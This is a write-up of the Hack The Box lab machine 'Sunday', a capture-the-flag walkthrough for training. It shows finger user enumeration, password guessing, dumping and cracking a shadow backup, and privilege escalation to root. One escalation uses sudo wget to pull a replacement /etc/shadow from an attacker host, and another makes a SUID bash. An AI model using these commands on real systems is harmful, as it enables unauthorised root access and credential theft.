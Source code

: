```yaml
---
layout: PostSimple
date: 2020-07-24
title:     "Hack The Box - Sunday"
tags: ['linux','medium','finger','wget','sudo','SUID']
categories: HackTheBox OSCP-Like
---
```


![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sunday/Untitled.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sunday/Untitled.png)

Getting Initial is by gathering usernames from Finger service and gusesing the password gives use user shell and We need to find backup shadow file to get user sammy's password and privilege escalation is by SUID.

Link: [https://www.hackthebox.eu/home/machines/profile/136](https://www.hackthebox.eu/home/machines/profile/136)

Let's Begin with our Initial Nmap Scan.

## Nmap Scan Results

```
PORT      STATE  SERVICE VERSION
79/tcp    open   finger
111/tcp   open   rpcbind 2-4 (RPC #100000)
22022/tcp open   ssh     SunSSH 1.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
|_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
```

## Finger Enumeration

### What is Finger?

**A finger service is running on this host. The finger protocol is used to find out information about users on a remote system. Finger servers can usually provide either a list of logged-in users or detailed information on a single user.**

I just downloaded finger-user-enum tool from [Github](https://github.com/pentestmonkey/finger-user-enum). 

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sunday/Untitled%201.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sunday/Untitled%201.png)

Here we can see a lot of usernames and only a few have pts and others are TTY

PTS connections are SSH connections

TTY are direct connections to the computer like reverse shell something.

## Getting User Shell

If I tried to login normally, it throws me some error and after adding this argument it worked perfectly. So I tried some default creds and I used the box name as password and Im logged in. `sunny : sunday`

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sunday/Untitled%202.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sunday/Untitled%202.png)

## Getting Sammy User Shell

The first thing I did is `sudo -l` and it shows me a binary located in root directory but I can't examine much of it.

```bash
sunny@sunday:~$ sudo -l
User sunny may run the following commands on this host:
    (root) NOPASSWD: /root/troll
sunny@sunday:~$ sudo /root/troll
testing
uid=0(root) gid=0(root)
```

While checking through all the folders there is `shadow.backup` file in `/backup` directory and I got sammy user hash.

```bash
sunny@sunday:/$ ls
backup  boot   dev      etc     home    lib         media  net  platform  root   sbin    tmp  var
bin     cdrom  devices  export  kernel  lost+found  mnt    opt  proc      rpool  system  usr
sunny@sunday:/$ cd backup/
sunny@sunday:/backup$ ls
agent22.backup  shadow.backup
sunny@sunday:/backup$ cat shadow.backup 
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

Cracked that using john and the password is `cooldude!`

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sunday/Untitled%203.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sunday/Untitled%203.png)

Tried to ssh with `sammy : cooldude!` and Im logged in.

```bash
root@kali:~/CTF/HTB/Boxes/Sunday# ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 sammy@10.10.10.76 -p 22022
Password: 
Last login: Tue Apr 24 12:57:03 2018 from 10.10.14.4
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
sammy@sunday:~$ whoami
sammy
sammy@sunday:~$
```

## Privilege Escalation

Uploaded my enumeration script and it reveals me that `sudo -l` and it seems I can run `wget` as root without any password.

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sunday/Untitled%204.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sunday/Untitled%204.png)

So I just created a hash using openssl 

```bash
root@kali:~/CTF/HTB/Boxes/Sunday# openssl passwd -1
Password: 
Verifying - Password: 
$1$9O207kaB$1arg8TyVn3Wuva8gQs.br1
```

And I copied my shadow file and changed the hash with the one I created.

![https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sunday/Untitled%205.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-sunday/Untitled%205.png)

Now I tried to overwrite the older one with mine and we need to mention `-O` in wget for the filename, otherwise it will be saved as `shadow1` since there is already a file that exists on that name.

```bash
sammy@sunday:/etc$ sudo /usr/bin/wget http://10.10.14.20:8000/shadow -O shadow
--14:33:07--  http://10.10.14.20:8000/shadow
           => `shadow'
Connecting to 10.10.14.20:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1,009 [application/octet-stream]

100%[=============================================================>] 1,009         --.--K/s             

14:33:08 (169.98 MB/s) - `shadow' saved [1009/1009]

sammy@sunday:/etc$ su root
Password: 
su: Password for user 'root' has expired
New Password: 
Re-enter new Password: 
su: password successfully changed for root
sammy@sunday:/etc# su root
sammy@sunday:/etc# whoami
root
```

Now I can do su to root with the new password. And here it says root password is expired and it asked for a new password so I just entered a new password and Im logged in.

### Another Method

We know there is a binary called `troll` which is located in `/root` directory and user sunny have permission to run that as root without any password, So I just made a small bash script that will copy the bash from `/usr/bash` and paste it in /tmp directory and make it SUID.

```bash
sammy@sunday:/root# sudo /usr/bin/wget http://10.10.14.20:8000/troll -O /root/troll 
--15:20:12--  http://10.10.14.20:8000/troll
           => `/root/troll'
Connecting to 10.10.14.20:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 61 [application/octet-stream]

100%[=======================================================================>] 61            --.--K/s             

15:20:13 (14.32 MB/s) - `/root/troll' saved [61/61]
```

Using wget I just replaced the older one, And we need to be quick here because there is some sort of cron running that replaces the file as fast as possible.

When I executed the binary it created the bash with SUID and I need to mention -p while running it because -p mentions run it as an effective user ID which is root.

```bash
sunny@sunday:/tmp$ sudo /root/troll
sunny@sunday:/tmp$ ls
bash  ogl_select254
sunny@sunday:/tmp$ ./bash -p
bash-3.2# whoami
root
bash-3.2#
```

We own the box